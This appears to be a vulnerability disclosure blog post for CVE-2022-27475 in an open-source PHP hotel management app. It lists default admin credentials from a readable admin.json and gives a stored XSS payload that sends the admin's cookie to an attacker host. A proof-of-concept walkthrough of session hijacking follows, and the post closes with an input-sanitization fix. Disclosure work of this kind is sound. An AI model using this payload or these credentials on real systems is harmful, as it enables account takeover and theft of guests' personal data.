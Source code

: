 ```yaml
---
layout: post
title: CVE-2022-27475
subtitle: Finding Small Bugs in Github
tags: [CVE]
---
```


# CVE-2022-27475

While looking at some open source projects on github I came across [this](https://github.com/tramyardg/hotel-mgmt-system) hotel management software. The webapp is used to create reservations for a hotel. I decided to downlaod it and play around with the app and my findings are below

# Default Passwords in admin.json

The admin.json file is readable by any user. If these account passwords are not changed anyone can get access to the admin console

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/f6f56174ff3d4c5d8746d627bf4b652c.png)

`martha@hotmail.com:1324`
`admin@gmail.com:admin123`
`admin@admin.com:admin123`

# Stored XSS

The `Name` field in `/register.php` is vulnerable to a stored XSS vulnerbility. When a user imputs malicious code such as `<script>new Image().src="http://KALI/cookie.php?c="+document.cookie;</script>` into the `Name` field whenever the admin goes to `/admin.php` the malicous Java Script code will be ran and the admins cookie will be sent to the attacker. The attacker can then use this cookie to gain access to `/admin.php` allowing him to get PII such as full names, phone numbers, and email addresse. This PII can then be used for other attacks

## POC

We can create a new user with the malicious XSS as the `Name`

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/675ecd9086dd474197606b9f02a09dee.png)

When an Admin logs into the admin page they will not see our XSS but our payload did execute
![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/6b2db54ce9234750adfb009403e6824b.png)

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/19e7d108edce46bcbd8480dd3ef8837d.png)

Back on kali we can see admins cookie

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/9acef946a430450483a82f26f0db6ada.png)

Signed in as another user we can edit our cookie to be the admins

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/4af5a4ee4a5a47b5b99976ec01877958.png)

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/575d61ec0cd84fe6baad0d3fdffb59ac.png)

Now going to `/admin.php` we can view bookings as another user.

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/cc9c986945504c1ea24ea95c18d06375.png)

# Fix

To fix this add the following code at the top of `/app/process_registration.php`

```
function sanitize_xss($value) {
    return htmlspecialchars(strip_tags($value));
}
```

Then Around line 30 make the following change
`$customer->setFullName(sanitize_xss($_POST["fullName"]));`

This will sanitize the input

![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/CVE-2022-27475/06132c248d4a4f29968190785c928a65.png)
